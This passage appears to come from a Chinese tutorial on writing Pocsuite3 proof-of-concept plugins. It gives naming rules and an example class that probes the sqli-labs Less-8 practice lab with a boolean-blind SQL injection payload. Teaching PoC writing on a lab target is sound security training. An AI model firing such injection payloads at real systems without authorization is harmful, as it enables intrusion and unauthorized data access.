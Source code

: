 ```python
    #6.编写结果处理模块
    def parse_output(self,result):
        pass

#7.注册Poc文件
register_poc(BooleanBindPOC)
```

###### ③规范要求

1. 文件名称需要符合PoC命名规范

2. 类的名称需符合规范

3. POC信息字段**必须全部填写**

   ![PoC信息字段](http://113.45.142.235:9001/laffrex/pictures/2024/10/13/202410131333028.png)

4. 返回结果result中的key值必须按照下面规范填写

   ![PoC-Result返回值填写规范](http://113.45.142.235:9001/laffrex/pictures/2024/10/13/202410131333448.png)

5. 在类的外部进行自定义PoC类的注册

###### ④实例

```python
from pocsuite3.api import Output, POCBase, register_poc, requests

class BooleanBindPOC(POCBase):
    vulID = '1'
    version = '1.0.0'
    author = 'Laffrex'
    vulDate = '2024-10-11'
    createDate = '2024-10-11'
    updateDate = '2024-10-11'
    name = 'sql-labs-8-Boolean-Blind'
    appPowerLink = '127.0.0.1'
    appName = 'sql-labs'
    appVersion = '1.0.0'
    vulType = 'Sql Injection'
    desc = 'Boolean Blind'
    samples = ['http://192.168.100.40:port/Less-8/']
    install_requires = []
    pocDesc = 'Boolean Blind'

    def _verify(self):
        payload = "?id=1' and length(database())>0 --+"
        result = {}
        target = self.url
        totalUrl = target + payload
        req = requests.get(totalUrl)
        res = req.text
        if ("You are in........" in res):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = target
            result['VerifyInfo']['Payload'] = payload
            return self.parse_output(result)
        else:
            print('Not Found')

    def _attack(self):
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
```